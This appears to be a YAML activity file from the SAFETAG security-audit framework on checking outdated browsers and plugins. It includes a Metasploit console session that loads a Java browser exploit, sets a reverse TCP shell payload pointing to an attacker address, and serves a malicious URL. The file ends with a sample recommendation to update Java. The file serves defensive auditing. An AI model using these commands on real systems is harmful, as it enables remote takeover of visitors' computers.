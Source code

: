 ```yaml
---
title: Check Browser and Plugin Vulnerabilities
approaches:
  - Technical
position: 50
authors:
  - SAFETAG
remote_options:
  - with-support
skills_required: []
skills_trained: []
summary: |
  Though modern browsers are better at self-updating, and the prevalence of
  powerful plugins like flash and java are slowly declining, it is valuable to
  ensure that the browsers in use have updated plugins and are themselves
  updated.
overview: ''
materials_needed: |
  * Metasploit
considerations: ''
walk_through: |
  ###### Outdated Java browser plugins

  While the threat described below is more severe if carried out by a local
  attacker (as they can more readily direct the victim to a malicious Web site),
  it also works remotely. In fact, if a user can be tricked, by a remote
  attacker, into clicking on a malicious email or Web link, attacks like this
  represent a significant perimeter threat. By compromising the victim’s
  machine, they can give the attacker a local point-of-presence without
  requiring the attacker to crack WPA keys or gain local access in some other
  way.

  Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious
  Web site:

  ```
  $ msfconsole

  IIIIII    dTb.dTb        _.---._
    II     4'  v  'B   .'"".'/|\`.""'.
    II     6.     .P  :  .' / | \ `.  :
    II     'T;. .;P'  '.'  /  |  \  `.'
    II      'T; ;P'    `. /   |   \ .'
  IIIIII     'YvP'       `-.__|__.-'

  I love shells --egypt

       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
  + -- --=[ 1114 exploits - 627 auxiliary - 178 post
  + -- --=[ 307 payloads - 30 encoders - 8 nops

  msf > use exploit/multi/browser/java_jre17_exec

  msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
  PAYLOAD => java/shell/reverse_tcp

  msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
  LHOST => 192.168.1.123

  msf exploit(java_jre17_exec) > set SRVPORT 8081
  SRVPORT => 8081

  msf exploit(java_jre17_exec) > set URIPATH java_test
  URIPATH => java_test

  msf exploit(java_jre17_exec) > run
  [*] Exploit running as background job.
  ```

  Step 2: At this point, any local user who visits
  http://192.168.1.123:8081/java_test, and who is running a sufficiently
  out-of-date version of the Java browser plugin, stands a good chance of giving
  the attacker full access to his computer:

  ```
  [*] Started reverse handler on 192.168.1.123:4444

  msf exploit(java_jre17_exec) |

  [*] Using URL: http://0.0.0.0:8081/java_test
  [*] Local IP: http://192.168.1.123:8081/java_test
  [*] Server started.

  msf exploit(java_jre17_exec) |

  <remote shell|
  ```

  Figure 1: Attacker in control of the victim’s computer through a remote
  command shell
recommendations: |
  **Sample Recommendation for outdated Java**

  One or more of the organization’s laptops were seen to be running an outdated,
  known-vulnerable version of the Java plugin for Internet Explorer.

  This version contains a vulnerability that is easily exploitable using one of
  the recent Java exploit modules from the widely available Metasploit security
  auditing framework. These modules allow an attacker to gain complete control
  over the computer of a victim who visits a malicious Web site hosted anywhere
  on the Internet. If the attacker is inside the office LAN, they can easily
  trick the victim into visiting that malicious Web site without the victim even
  knowing it.

  At least one of the organization’s computers is running an outdated Java
  browser plugin, and exploit code is widely-available for several critical
  vulnerabilities in versions older than “Java 7, update 16.” All of the
  organization’s Java installations should be updated to the latest version.
  This can be troublesome, as (unlike the Windows operating system itself) Java
  plugins sometimes require user input before they will install updates.
organization_size_under: 25
time_required_minutes: 30
---
```

